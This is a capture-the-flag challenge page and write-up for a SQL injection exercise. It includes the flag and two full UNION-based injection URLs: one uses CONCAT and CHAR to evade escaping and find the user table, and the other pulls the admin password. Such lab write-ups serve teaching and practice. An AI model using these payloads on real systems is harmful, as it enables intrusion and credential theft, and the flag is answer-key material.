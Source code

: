 # Injection 3

## Description

All user input is being escaped for this login form, so there's no way that you could inject anything malicious. If that's a problem, the admin's contact info is available - take it up with him!

Category: Difficult

## Hint

You'll need the name of the table that user information is stored in. There should be a SQL function that can help you create a string while getting past the mysqli_real_escape_string function.

## Flag

flag{w0w_$UcH_1nJ3c710N}

## Write-Up

This challenge contains a more difficult SQL injection vulnerability, where you must first find the name of the
table used to store user information, and then perform a similar query to Injection 2 to find the admin password,
and finally log in to find the flag.

Start by trying to get the table name out of information_schema.TABLES. Due to the mysqli_real_escape_string function 
used to escape the user's input, we can't just search for a table name using LIKE "%user"; what we can do is use SQL's
CONCAT function to get around the escape function. After some trial and error on the number of table columns, we can
get the table name by using this URL:

	{base_url}/lookup_user.php?id=1 AND 1=0 UNION SELECT TABLE_NAME AS id, TABLE_NAME AS username, TABLE_NAME as password, TABLE_NAME as email, TABLE_NAME as authorization FROM information_schema.TABLES WHERE TABLE_NAME LIKE CONCAT(CHAR(37), CHAR(117), CHAR(115), CHAR(101), CHAR(114), CHAR(115)) LIMIT 1

This returns 'ultra_secret_users' for all attributes - the name of the table we want to perform our query on. Similar to
Injection 2's query, we will need to return false rows to trick the query into returning real information:

	{base_url}/lookup_user.php?id=1 AND 0=1 UNION SELECT username, password as email, password as authorization, password as id, password as authorization from ultra_secret_users limit 1
	
This gives us the password for the admin user - login with the admin's credentials and the flag is revealed!